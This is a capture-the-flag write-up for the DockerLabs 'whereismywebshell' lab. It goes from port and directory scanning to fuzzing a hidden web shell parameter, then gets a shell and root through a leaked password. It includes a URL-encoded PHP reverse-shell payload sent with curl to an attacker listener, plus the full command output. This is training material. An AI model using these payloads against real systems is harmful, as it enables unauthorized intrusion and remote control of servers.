

# whereismywebshell

## Executive Summary
| Machine | Author | Category | Platform |
| :--- | :--- | :--- | :--- |
| whereismywebshell | El Pingüino de Mario | easy | dockerlabs |

**Summary:** The whereismywebshell machine was a web parameter discovery challenge. The only exposed service was Apache HTTP on port 80, serving an English academy themed site. Directory brute forcing with Gobuster surfaced a hidden `shell.php` that returned a 500 status code, a strong sign that it expected a specific parameter to execute commands. Ffuf was used to fuzz the parameter name against the wordlist with the value `id`, and a single match emerged: the parameter named `parameter` returned the command output. A netcat listener was started, and a URL encoded PHP reverse shell was passed through the discovered parameter, returning a shell as `www-data`. After upgrading the TTY, enumeration of the `/tmp` directory revealed a hidden `.secret.txt` file containing the root password `contraseñaderoot123`. A simple `su - root` with that password produced a root shell and completed the compromise.

---

## Reconnaissance

**1. Machine Deployment**

The engagement began by deploying the vulnerable machine using the DockerLabs automation script.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/whereismywebshell]
└─$ sudo bash auto_deploy.sh whereismywebshell.tar 
[sudo] password for ouba: 

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

**2. Port Scan**

A full port scan was then conducted against the target to enumerate all running services.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl]
└─$ nmap -sC -sV -p- -T4 172.17.0.2            
Starting Nmap 7.99 ( https://nmap.org ) at 2026-08-07 21:07 +0700
Nmap scan report for 172.17.0.2 (172.17.0.2)
Host is up (0.0000080s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-title: Academia de Ingl\xC3\xA9s (Inglis Academi)
|_http-server-header: Apache/2.4.57 (Debian)
MAC Address: 66:01:45:3E:7A:35 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.77 seconds
```

The scan revealed a single open service, Apache HTTP on port 80, serving an English academy themed page.

**3. Directory Enumeration**

Directory brute-forcing was performed against the web root.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl]
└─$ gobuster dir -u http://$ip/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -x txt,php,html,zip,tar,env,bak,js,css,png
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Extensions:              html,zip,env,bak,css,txt,tar,js,png,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
index.html           (Status: 200) [Size: 2510]
shell.php            (Status: 500) [Size: 0]
warning.html         (Status: 200) [Size: 315]
Progress: 2426127 / 2426127 (100.00%)
===============================================================
Finished
===============================================================
```

Gobuster found `shell.php`, which returned a 500 status code. This hinted at a PHP script that expects a specific parameter and fails without it.



**4. Parameter Fuzzing with Ffuf**

The parameter name of `shell.php` was discovered by fuzzing the query string with the value `id`.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl]
└─$ ffuf -u "http://$ip/shell.php?FUZZ=id" -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -ic -fs 0

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://172.17.0.2/shell.php?FUZZ=id
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 0
________________________________________________

parameter               [Status: 200, Size: 66, Words: 3, Lines: 3, Duration: 40ms]
```

A single parameter named `parameter` produced a 200 response with 66 bytes, which is the expected size of the `id` command output.

---

## Initial Access

**1. Setting Up the Listener**

A netcat listener was started on the attacking machine to catch the incoming shell.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
```

**2. Firing the Reverse Shell**

A URL encoded PHP command that opens a socket to the attacker was passed through the discovered `parameter` argument.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl]
└─$ curl "http://172.17.0.2/shell.php?parameter=php%20-r%20%27%24sock%3Dfsockopen%28%22172.17.0.1%22%2C4444%29%3Bshell_exec%28%22%2Fbin%2Fbash%20%3C%263%20%3E%263%202%3E%263%22%29%3B%27"
```

**3. Catching the Shell and Upgrading the TTY**

The connection returned a shell as `www-data`. Because the process lacked a TTY, the session was upgraded with `script` and fully stabilised.

```bash
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 37638
script -qc /bin/bash /dev/null
www-data@92df01c7a3ef:/var/www/html$ ^Z
zsh: suspended  nc -lvnp 4444
                                                                                                                              
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl]
└─$ stty raw -echo; fg
[1]  + continued  nc -lvnp 4444

www-data@92df01c7a3ef:/var/www/html$ export TERM=xterm && export SHELL=/bin/bash                       
www-data@92df01c7a3ef:/var/www/html$ stty rows 80 cols 130
```

A stable shell as `www-data` was obtained.

---

## Privilege Escalation

**1. Discovering the Root Password**

The `/tmp` directory was inspected for leftover files.

```bash
www-data@92df01c7a3ef:/var/www/html$ ls -la /tmp/
total 12
drwxrwxrwt 1 root root 4096 Aug  7 14:06 .
drwxr-xr-x 1 root root 4096 Aug  7 14:06 ..
-rw-r--r-- 1 root root   21 Apr 12  2024 .secret.txt
www-data@92df01c7a3ef:/var/www/html$ cat /tmp/.secret.txt 
contraseñaderoot123
```

A hidden `.secret.txt` file contained the plaintext root password `contraseñaderoot123`.

**2. Root Shell**

The recovered password was used to switch directly to root.

```bash
www-data@92df01c7a3ef:/var/www/html$ su - root
Password: 
root@92df01c7a3ef:~# id;whoami;hostname
uid=0(root) gid=0(root) groups=0(root)
root
92df01c7a3ef
```

A fully privileged root shell was achieved on the whereismywebshell machine.

---

## Attack Chain Summary
1. **Reconnaissance**: A full TCP port scan with `nmap -sC -sV -p- -T4` identified Apache HTTP on port 80 as the only open service. Gobuster enumerated `index.html`, `shell.php` with a 500 status, and `warning.html`.
2. **Vulnerability Discovery**: The `shell.php` script returned a 500 error because it required a specific query parameter. Ffuf fuzzed the parameter name with the value `id` and found the match `parameter`, which returned the command output.
3. **Exploitation**: A URL encoded PHP reverse shell was passed through the `parameter` argument, returning a shell as `www-data`. The TTY was upgraded with `script` for a stable interactive session.
4. **Internal Enumeration**: A listing of `/tmp` revealed the hidden file `.secret.txt`, which contained the plaintext root password `contraseñaderoot123`.
5. **Privilege Escalation**: A direct `su - root` with the recovered password produced a root shell, and the `id;whoami;hostname` output confirmed uid 0, completing the compromise.
